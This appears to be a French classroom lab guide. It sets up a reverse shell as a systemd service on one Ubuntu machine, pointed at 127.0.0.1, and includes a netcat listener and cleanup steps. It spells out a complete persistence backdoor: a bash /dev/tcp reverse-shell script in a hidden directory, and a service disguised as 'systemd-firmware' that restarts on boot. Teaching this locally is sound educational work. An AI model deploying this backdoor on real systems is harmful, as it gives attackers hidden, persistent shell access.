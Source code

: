 
#  TP avec **UNE SEULE MACHINE Ubuntu 22.04**

---

## 🔧 Objectif

* Simuler un **reverse shell** avec un service systemd
* Utiliser **une seule machine Ubuntu 22.04**
* Ouvrir le listener (`nc -lvnp`) **localement**
* Prouver que le service fonctionne et persiste **même après redémarrage**

---

## 1. SCHÉMA DE TRAVAIL (SANS RÉSEAU EXTERNE)

```
+----------------------------------------+
|   MACHINE UBUNTU 22.04 UNIQUE          |
|                                        |
|  Terminal 1 :                          |
|     nc -lvnp 4444                      |
|                                        |
|  Terminal 2 (root) :                   |
|     systemd --> bash reverse vers 127.0.0.1:4444  |
+----------------------------------------+
```

---

## 2. ÉTAPES COMPLÈTES

---

### 2.1 Terminal 1 – Ouvrir le port localement (port 4444)

```bash
nc -lvnp 4444
```

Attendre. Ne rien fermer.

---

### 2.2 Terminal 2 – Créer le script malveillant

```bash
sudo mkdir -p /opt/.backdoor
sudo nano /opt/.backdoor/reverse.sh
```

Contenu du script :

```bash
#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

Enregistrez. Puis :

```bash
sudo chmod +x /opt/.backdoor/reverse.sh
```

---

### 2.3 Créer le faux service systemd

```bash
sudo nano /etc/systemd/system/systemd-firmware.service
```

Contenu :

```ini
[Unit]
Description=Firmware Sync Service
After=network.target

[Service]
ExecStart=/opt/.backdoor/reverse.sh
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
```

---

### 2.4 Activer le service

```bash
sudo systemctl daemon-reload
sudo systemctl enable systemd-firmware
sudo systemctl start systemd-firmware
```

---

### 2.5 Observer le reverse shell (Terminal 1)

Si tout fonctionne, vous verrez :

```
Connection from 127.0.0.1
bash-5.1$
```

Vous êtes dans un shell **ouvert sur vous-même**, preuve que le service marche.

---

### 2.6 Reboot et test de persistance

```bash
sudo reboot
```

Une fois la machine redémarrée, ouvrez rapidement un terminal et tapez :

```bash
nc -lvnp 4444
```

Le shell réapparaît quelques secondes plus tard.
Le service s’est relancé **automatiquement**.

---

## 3. Nettoyage

```bash
sudo systemctl stop systemd-firmware
sudo systemctl disable systemd-firmware
sudo rm /etc/systemd/system/systemd-firmware.service
sudo rm -rf /opt/.backdoor/
sudo systemctl daemon-reload
```

---

## 4. Remarques pédagogiques

* **Pas besoin de réseau**, ni d’IP publique
* Parfait pour **TP local en salle** ou **autoformation**
* C’est un exemple de **persistence locale**
* Les étudiants **voient directement les effets** du service systemd
* Le nom du service peut être **déguisé** (`systemd-firmware`, `dbus-monitor`, etc.)

